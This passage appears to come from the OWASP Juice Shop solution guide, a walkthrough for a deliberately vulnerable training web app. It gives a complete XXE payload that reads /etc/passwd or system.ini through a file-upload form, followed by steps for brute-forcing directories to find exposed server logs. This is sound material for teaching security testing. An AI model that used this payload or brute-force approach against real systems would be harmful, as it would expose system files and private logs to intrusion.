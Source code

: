 
### Retrieve the content of C:\Windows\system.ini or /etc/passwd from the server

1. Solve the
   [Use a deprecated B2B interface that was not properly shut down](#use-a-deprecated-b2b-interface-that-was-not-properly-shut-down)
   challenge.
2. Prepare an XML file which defines and uses an external entity
   `<!ENTITY xxe SYSTEM "file:///etc/passwd" >]>` (or `<!ENTITY xxe
   SYSTEM "file:///C:/Windows/system.ini" >]>` on Windows).
3. Upload this file through the _File Complaint_ dialog and observe the
   Javascript console while doing so. It should give you an error
   message containing the parsed XML, including the contents of the
   local system file!

```xml
<?xml version="1.0" encoding="UTF-8"?>

<!DOCTYPE foo [<!ELEMENT foo ANY >
        <!ENTITY xxe SYSTEM "file:///etc/passwd" >]>

<trades>
    <metadata>
        <name>Apple Juice</name>
        <trader>
            <foo>&xxe;</foo>
            <name>B. Kimminich</name>
        </trader>
        <units>1500</units>
        <price>106</price>
        <name>Lemon Juice</name>
        <trader>
            <name>B. Kimminich</name>
        </trader>
        <units>4500</units>
        <price>195</price>
    </metadata>
</trades>
```

## ⭐⭐⭐⭐ Challenges

### Gain access to any access log file of the server

1. Solve the
   [Access a confidential document](#access-a-confidential-document) or
   any related challenges which will bring the exposed `/ftp` folder to
   your attention.
2. Visit <http://localhost:3000/ftp> and notice the file
   `incident-support.kdbx` which is needed for
   [Log in with the support team's original user credentials](../part2/security-misconfiguration.md#log-in-with-the-support-teams-original-user-credentials)
   and indicates that some support team is performing its duties from
   the public Internet and possibly with VPN access.
3. Guess luckily or run a brute force attack with e.g.
   [OWASP ZAPs DirBuster plugin](https://github.com/zaproxy/zap-extensions/tree/beta/src/org/zaproxy/zap/extension/bruteforce)
   for a possibly exposed directory containing the log files.
4. Following
   [the hint to drill down deeper than one level](../part2/sensitive-data-exposure.md#gain-access-to-any-access-log-file-of-the-server),
   you will at some point end up with
   <http://localhost:3000/support/logs>.